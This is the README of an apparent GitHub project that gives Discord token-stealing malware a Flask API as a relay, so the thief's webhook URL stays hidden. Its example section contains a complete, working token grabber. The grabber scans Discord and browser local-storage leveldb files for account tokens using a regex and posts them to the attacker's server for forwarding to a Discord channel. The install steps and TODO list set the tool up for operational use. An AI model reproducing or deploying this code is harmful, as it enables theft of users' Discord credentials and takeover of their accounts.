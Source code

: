 # Discord Webhook Protection

 A Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1'  # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# set paths to where tokens are stored
localappdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
paths = {
    'Discord': os.path.join(roaming, 'Discord'),
    'Discord Canary': os.path.join(roaming, 'DiscordCanary'),
    'Discord PTB': os.path.join(roaming, 'DiscordPTB'),
    'Google Chrome': os.path.join(localappdata, 'Google', 'Chrome', 'User Data', 'Default'),
    'Opera': os.path.join(roaming, 'Opera Software', 'Opera Stable'),
    'Brave': os.path.join(localappdata, 'BraveSoftware', 'Brave-Browser', 'User Data', 'Default'),
    'Yandex': os.path.join(localappdata, 'Yandex', 'YandexBrowser', 'User Data', 'Default')
}

# grab tokens
tokens = []

for platform, path in paths.items():
    path = os.path.join(path, 'Local Storage', 'leveldb')

    if os.path.exists(path) is False:
        continue

    for item in os.listdir(path):
        if (item[-4:] in ('.log', '.ldb')) is False:
            continue

        with open(os.path.join(path, item), errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

# send tokens to the webhook protection API that will validate them and send them to your Discord server over webhook
try:
    data = {'secret': SECRET, 'tokens': tokens}

    # note that using json=data, requests module automatically sets the Content-Type header to application/json
    requests.post(f'http://{API_IP}:{API_PORT}/grab', json=data)
except:
    pass
```

Don't judge the token grabber. I made it simple to understand, not efficient : P

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py` (It's recommened to set up a production WSGI server)

## TODO

* [ ] Set up a MySQL database to store tokens, used to prevent dupes
* [ ] IP-address based rate limit to prevent abusers from flooding the API
* [ ] Support multiple tokens in a single request using `,` seperator
